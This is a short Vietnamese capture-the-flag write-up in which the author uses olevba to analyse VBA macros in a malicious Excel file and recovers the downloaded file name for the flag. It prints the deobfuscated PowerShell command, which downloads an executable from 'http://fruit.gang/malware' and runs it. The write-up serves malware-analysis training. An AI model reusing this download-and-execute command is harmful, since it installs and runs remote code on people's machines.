 ### Đề bài

![image](https://github.com/Eafz/demo/assets/55439965/09891fe6-ef33-45ff-858a-9b70ed29bbc9)

Để bài đại loại kiểu là mình sẽ nhận được một file excel và phân tích nó để lấy tên tệp tải xuống(flag có dạng utctf{tên tệp}). Thông thường các dạng như này thì sẽ thực hiện phân tích VBA macros trong file excel

Kiểm tra file với olevba thu được thông tin như hình dưới

![image](https://github.com/Eafz/demo/assets/55439965/a44e1d59-593d-463b-a567-342e7ff56c08)

Chúng ta có thể thấy về cơ bản là sẽ thực thi một đoạn Powershell script được đặt trong biến `f`. Với biến f được làm rối nội dung bằng phương pháp chia nhỏ và cộng các chuỗi con lại với nhau

Thực hiện xem nội dung đoạn powershell được thực thi thu được

![image](https://github.com/Eafz/demo/assets/55439965/35035ba2-13d7-4a26-b8a1-d088d3a27273)

`poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"`
